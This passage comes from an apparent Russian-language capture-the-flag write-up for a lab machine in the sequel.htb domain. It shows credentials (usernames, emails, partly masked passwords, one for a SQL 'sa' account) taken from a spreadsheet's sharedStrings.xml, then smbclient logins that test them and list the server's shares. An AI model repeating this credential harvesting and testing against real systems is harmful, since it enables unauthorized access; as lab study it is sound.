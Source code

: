 Нас интересует файл `sharedStrings.xml`, так как этот файл содержит уникальные строки текста, которые используются в ячейках Excel. Вместо того чтобы сохранять каждый текстовый элемент в каждой ячейке (что увеличивает размер файла), **Excel** сохраняет текстовые строки один раз в `sharedStrings.xml`. Ячейки, содержащие текст, ссылаются на индекс строки из этого файла
```xml
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24">
<si><t xml:space="preserve">First Name</t></si>
<si><t xml:space="preserve">Last Name</t></si>
<si><t xml:space="preserve">Email</t></si>
<si><t xml:space="preserve">Username</t></si>
<si><t xml:space="preserve">Password</t></si>
<si><t xml:space="preserve">Angela</t></si>
<si><t xml:space="preserve">Martin</t></si>
<si><t xml:space="preserve">angela@sequel.htb</t></si>
<si><t xml:space="preserve">angela</t></si>
<si><t xml:space="preserve">0fwz7Q4m*****</t></si>
<si><t xml:space="preserve">Oscar</t></si>
<si><t xml:space="preserve">Martinez</t></si>
<si><t xml:space="preserve">oscar@sequel.htb</t></si>
<si><t xml:space="preserve">oscar</t></si>
<si><t xml:space="preserve">86LxLBMgE*****</t></si>
<si><t xml:space="preserve">Kevin</t></si>
<si><t xml:space="preserve">Malone</t></si>
<si><t xml:space="preserve">kevin@sequel.htb</t></si>
<si><t xml:space="preserve">kevin</t></si>
<si><t xml:space="preserve">Md9Wlq1E*****</t></si>
<si><t xml:space="preserve">NULL</t></si>
<si><t xml:space="preserve">sa@sequel.htb</t></si>
<si><t xml:space="preserve">sa</t></si>
<si><t xml:space="preserve">MSSQLP@*****</t></si>
</sst>
```

![image](https://github.com/user-attachments/assets/1ffa8b7d-ed8f-4ad1-8c7a-b853dec5d1a0)

![image](https://github.com/user-attachments/assets/ef7af5a8-5d32-4dcb-a74f-6c01f2e784d7)

Но на самом деле, почему **XLSX** файлы имеют содержание на машином коде, я не знаю, на этом моменте я уперся в тупик и достаточно долго не знал что делать, пришлось пользоваться документацией по взлому этой машины. Теоритически кстати, если у нас есть поврежденый **XLSX**, мы, возможно, можем сделать абсолютно такой же алгоритм действий, чтоб извлечь важные для нас данные
```
Hexada@hexada ~/app/escape-two/accounts/xl$ smbclient -L //escape.two.htb -U 'angela'                                                                                               130 ↵  
Password for [WORKGROUP\angela]:
session setup failed: NT_STATUS_LOGON_FAILURE
Hexada@hexada ~/app/escape-two/accounts/xl$
```

```
Hexada@hexada ~/app/escape-two/accounts/xl$ smbclient -L //escape.two.htb -U 'oscar'                                                                                                130 ↵  
Password for [WORKGROUP\oscar]:

        Sharename       Type      Comment
        ---------       ----      -------
        Accounting Department Disk      
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```
